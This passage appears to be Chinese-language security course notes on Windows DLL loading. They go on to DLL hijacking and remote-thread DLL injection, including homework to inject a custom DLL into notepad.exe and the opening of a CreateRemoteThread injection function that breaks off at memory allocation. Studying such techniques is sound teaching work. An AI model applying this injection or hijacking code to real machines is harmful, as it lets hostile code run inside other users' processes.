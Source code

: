 ```c
#include<Windows.h>

// 数据类型，定义函数指针类型
typedef int (WINAPI* MY_PROC)(char*);

int main()
{
	// 获得模块句柄
	HMODULE hBaselib = LoadLibraryA("baselib.dll");

	if (hBaselib == NULL)return 0;

	// 获得函数指针
	MY_PROC func = GetProcAddress(hBaselib, "lib_function");
	func("run time load");	// 函数指针变量和函数的使用方法相同
}
```

- `GetProcAddress`：`Retrieves the address of an exported function or variable from the specified dynamic-link library (DLL).`

## 使用动态链接库进行攻击

- hacker 编写 DLL(恶意代码) 注入 正常程序(victim)
- DLL 加载顺序：当前路径 -> 系统路径
- DLL 劫持：当前目录下放 kernel32.dll 调用系统目录下的 kernel32.dll

- https://github.com/fdiskyou/injectAllTheThings
- `CreateRemoteThread()`远程创建线程，如进程A为进程B创建线程：Creates a thread that runs in the virtual address space of another process.
- `Process32First`和`Process32Next`遍历当前操作系统当中的所有进程
- 通过进程名获得 PID
- 作业
  - 查文档，研究远程线程方式注入dll的实例代码的实现原理
  - 运行实例代码，向一个目标程序（比如notepad.exe)注入一个我们自行编写的dll，加载运行
  - 整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid

```c
#include <stdio.h>
#include <Windows.h>
#include <tlhelp32.h>
#include "fheaders.h"

DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL's pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);

	// Get process handle passing in the process ID
    // 如若权限不够，使用管理员权限运行
	HANDLE hProcess = OpenProcess(
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE,
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		wprintf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Allocate space in the remote process for the pathname
```